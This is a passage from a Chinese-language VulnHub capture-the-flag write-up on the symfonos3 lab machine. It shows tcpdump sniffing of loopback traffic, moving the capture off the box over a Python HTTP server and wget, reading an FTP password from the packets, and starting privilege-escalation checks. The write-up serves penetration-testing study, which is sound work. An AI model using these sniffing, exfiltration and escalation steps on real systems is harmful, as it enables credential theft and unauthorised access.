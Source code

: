 ```bash
cd /tmp
tcpdump -D
tcpdump -w lo.pcap -i lo
```

运行命令后静静等待一段时间,再将抓好的包传给分析数据的机器

```bash
cd /tmp
python -m SimpleHTTPServer
```

```bash
wget 192.168.141.150:8000/lo.pcap
```

- 注1 : 这段过程要重复 ctrl+c 断 nc 连接,重连数次,要有耐心
- 注2 : 第一次 tcpdump 后再次执行报无权限,我直接重装了靶机,直接 tcpdump lo 口

这次分析看下
```
tcp.dstport == 21
```

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos3/27.png)

发现 hades 的密码 PTpZTfU4vxgzvRBE

---

# 后期-垂直提权

登录,尝试提权
```bash
sudo -l
find / -perm -u=s 2>/dev/null
```

和 cerberus 一样啥都没有,突然想到之前 pspy 抓的进程中 ftp 脚本是以 uid0 定时运行的
```bash
cd /opt/ftpclient/
ls
cat ftpclient.py
```
